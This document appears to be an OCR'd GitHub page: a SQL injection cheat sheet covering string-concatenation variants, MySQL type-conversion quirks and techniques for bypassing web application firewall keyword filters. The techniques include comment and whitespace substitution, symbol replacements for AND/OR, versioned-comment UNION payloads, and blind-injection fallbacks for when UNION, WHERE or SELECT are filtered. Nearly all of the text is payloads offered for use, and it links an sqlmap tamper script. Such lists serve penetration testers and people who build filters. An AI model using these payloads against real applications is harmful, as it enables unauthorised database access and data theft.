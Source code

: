 ```sql
SELECT CONCAT('He', 'llo')
SELECT NVL('Hello','Goodbye')
SELECT q'[]'||'He'||'ll'/**/||'o'
SELECT CONCAT(/**/'He'/**/,/**/'ll'/**/)
```

## MySQL Type Conversion
```sql
SELECT ~'-2it\'s a kind of magic' # 1
SELECT ... version()=5.5
SELECT ... @@version=5.5
SELECT ... ('type'+'cast')=0 # true
SELECT -'-1337a kind of magic'-25 # 1337
```

## Bypassing Keyword Filters
> Case changing (old) -- SelEct
> [randomcase.py](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/randomcase.py)

> Intermediary Characters

```sql
SELECT/**/values/**/AND/**/.../**/OR/**/
SELECT[sp]values[sp]AND...[sp]OR[sp]
SELECT"values"FROM`table`WHERE/**/1
SELECT(values)FROM(table)WHERE(1)
SELECT"values"``FROM`table`WHERE(1)
SELECT+"values"%A0FROM`table`

# bypassing replaced keywords
AND = &&
OR = ||
# if the above are filtered use UNION
... UNION(SELECT 'values'...) && ...
... UNION ALL SELECT ...
... UNION DISTINCT SELECT ...
... /*!00000 UNION*//*!00000 SELECT*/ ...

# UNION filtered go blind
... (SELECT id FROM users LIMIT 1)='5' ...

# WHERE bypass
... SELECT id FROM users GROUP BY id HAVING id='5' ...

# GROUP BY bypass (blind)
... AND length((SELECT first char)='a') // 0/1 > true/false

# HAVING bypass (use GROUP_CONCAT blind)

# SELECT bypass (blind)
... AND COLUMN IS NOT NULL ... // bruteforce/guess existing columns
procedure analyse()
```

